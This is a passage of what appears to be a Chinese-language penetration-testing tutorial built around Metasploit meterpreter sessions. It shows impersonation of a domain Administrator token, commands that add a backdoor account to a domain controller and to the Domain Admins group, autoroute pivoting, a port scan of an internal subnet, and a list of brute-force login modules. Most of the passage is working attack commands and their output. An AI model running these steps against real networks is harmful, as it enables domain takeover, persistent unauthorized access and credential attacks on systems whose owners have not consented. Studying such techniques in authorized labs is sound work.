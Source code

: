 	Delegation Tokens Available
	========================================
	IIS APPPOOL\zyk
	NT AUTHORITY\IUSR
	NT AUTHORITY\LOCAL SERVICE
	NT AUTHORITY\NETWORK SERVICE
	NT AUTHORITY\SYSTEM
	QLWEB\Administrator
	
	Impersonation Tokens Available
	========================================
	NT AUTHORITY\ANONYMOUS LOGON

    meterpreter > impersonate_token QLWEB\\Administrator
	[+] Delegation token available
	[+] Successfully impersonated user QLWEB\Administrator
    meterpreter > getuid
	Server username: QLWEB\Administrator
	meterpreter>add_user 0xfa funny –h192.168.3.98#在域控主机上添加账户
	meterpreter>add_group_user “DomainAdmins” 0xfa –h192.168.3.98#将账户添加至域管理员组
    
如果有了域控:) nidongde


####内网扫描
	
    meterpreter > run autoroute -s 192.168.3.98
	meterpreter > background
    [*] Backgrounding session 2...
	msf exploit(handler) > use auxiliary/scanner/portscan/tcp
	msf auxiliary(tcp) > set PORTS 80,8080,21,22,3389,445,1433,3306
	PORTS => 80,8080,21,22,3389,445,1433,3306
	msf auxiliary(tcp) > set RHOSTS 192.168.3.1/24
	RHOSTS => 192.168.3.1/24
	msf auxiliary(tcp) > set THERADS 10
	THERADS => 10
	msf auxiliary(tcp) > exploit

![](http://7xicbb.com1.z0.glb.clouddn.com/TCP.png)



一些常用的破解模块

	auxiliary/scanner/mssql/mssql_login
    auxiliary/scanner/ftp/ftp_login
    auxiliary/scanner/ssh/ssh_login
    auxiliary/scanner/telnet/telnet_login
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/mssql/mssql_login
    auxiliary/scanner/mysql/mysql_login
    auxiliary/scanner/oracle/oracle_login
    auxiliary/scanner/postgres/postgres_login
    auxiliary/scanner/vnc/vnc_login
    auxiliary/scanner/pcanywhere/pcanywhere_login
    auxiliary/scanner/snmp/snmp_login
    auxiliary/scanner/ftp/anonymous
